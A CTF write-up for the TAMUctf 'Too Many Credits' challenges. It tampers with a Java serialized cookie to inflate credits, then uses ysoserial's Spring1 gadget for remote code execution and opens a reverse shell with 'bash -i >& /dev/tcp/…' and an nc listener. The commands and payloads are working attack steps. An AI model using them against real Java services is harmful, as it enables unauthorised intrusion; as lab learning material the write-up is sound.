



# Too Many Credits 1
Okay, fine, there’s a lot of credit systems. We had to put that guy on break; seriously concerned about that dude.
Anywho. We’ve made an actually secure one now, with Java, not dirty JS this time. Give it a whack?
If you get two thousand million credits again, well, we’ll just have to shut this program down.
Even if you could get the first flag, I bet you can’t pop a shell!
http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Serialization.

## Understanding the cookie
On visiting the link we see a page with a counter. On inspecting the cookies we see a base64 string as cookie.

On directly decoding it you get gibberish. This is because its not plain text.
The best way to handle such base64 strings is to decode the string and save it into a file. Use a command like
``` echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d w0 >> unknown_file
```
Then run file on it to know the actual filetype.
```file unknown_file
```
This is will return saying its a gzip file. On extracting we get another file, applying ``file`` on it gives filetype as Java Serialized Object.
The combined command till here would look like
``` echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d | gzip -d >> java_ser_obj
```

## Crafting our payload

So now we know we have to understand how such an Object is structured in order to edit it and increase our credits value
For information about the structure of the object, refer this [article](https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html)

To view the deserialized payload, we can [Serialization Dumper](https://github.com/NickstaDB/SerializationDumper) tool by NickstaDB


We can see that it has a field of Long type which holds the credits count. So its obvious that we have to find and edit that to a two thousand million in order to get the flag.
If you read the structure articel you could now anticipate where the value would be in the hexdump and change it appropriately.
Incase you skipped that part, just look for a 3 in the hex and change it.(Its at the very end). We need to add a high hex value there. We can patch that using an online [hex editor](https://hexed.it/?hl=en)
I am attatching the [patched object](patched_object) for reference


After patching it we compress it, base64 encode it and send it as cookie. The entire command to generate payload from the patched object
``` gzip -c patched_object | base64 -
```
This returns the payload string `H4sICBsJe14AA3BhdGNoZWRfb2JqZWN0AFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zz
S/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMFxgAAEBAAdAMaNSAAAA`
Submit as cookie and get the flag.

# Too Many Credits 2
Even if you could get the first flag, I bet you can't pop a shell!
URL: http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Deserialization Vulnerability.
[Video]https://www.youtube.com/watch?v=KSA7vUkXGSg explaining the exploit discovered byChris Frohoff & Gabriel Lawrence


## Finding the payload
Basically we have to craft a java object which when deserialized by the java code in the server starts a remote shell.
An open-source tool named [ysoserial](https://github.com/frohoff/ysoserial) was also developed.

Refer this [article](https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/) for a better idea how the attack works.

The tool automatially creates payload with the command we wish to execute on the shell obtained. It gives us various payloads to work with, we will have to test each one out to figure out the one that works.
SerialBrute is a tool that could automate this. It tests out each payload. However we did it manually. However since this looks like a Java web app, you could try out the Spring framework payload first.

To manually generate a payload the following command can be used
``` java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 'ping -n 1 8.8.8.8' | gzip | base64 -w0 ```
This payload will pop a shell and execute the ping command.

To decide on the payload, we have to observe the error returned by the web app when we send the payload. When a particular class in the payload does not exist on the server, the error message contains the name of the class not found. When all the classes required are present, the error returns as 'No Message Available' in the site.

View below the difference between the error messages returned
 


## Popping a Remote Shell

So after finding the payload that works, we need to test out the commands that will work. Change 8.8.8.8 to the IP of your server and listen for a ping request using ``` sudo tcpdump icmp ``` on your server.


Yay! The command executed. We have RCE. Now we need a remote shell running to interact with and get the flag. You can find a list of payloads to get a remote shell [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I went with ` bash -i >& /dev/tcp/0.0.0.0/8065 0>&1 ` with 0.0.0.0 replaced with my server IP and listened for connection on my server port 8065.

This is where I got stuck with an issue, the payload I gave didn't execute on the server. So I tried various ones and none of them worked. I took me a while to figure out the issue.

From what I understood the ysoserial generates payloads and gives the entire command string as a single argument to the object created. But if we want to execute complex commands we have to pass each part of the complex commands in an array. This was not an issue with simple commands like ping, wget, ls. But pipeing and redirection of output won't work. So a slight modification is needed while generating payloads. This is done in the [ysoserial-modified](https://github.com/pimps/ysoserial-modified) repo. If you didn't understand what I tried to explain here please look up this [article](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html) to get a much clear idea. Also the repo has details as to why the modification was required.

Generating our payload using ysoserial-modified:
``` java -jar ysoserial-modified.jar Spring1 bash 'bash -i >& /dev/tcp/x.x.x.x/8065 0>&1' | gzip | base64 -w0
```
[final_payload](final_payload.png)

Listening on our server for incoming connection
``` nc -lvp 8065
```
we get a shell and the flag from the text file on the remote server
[shell](remote_shell.png)
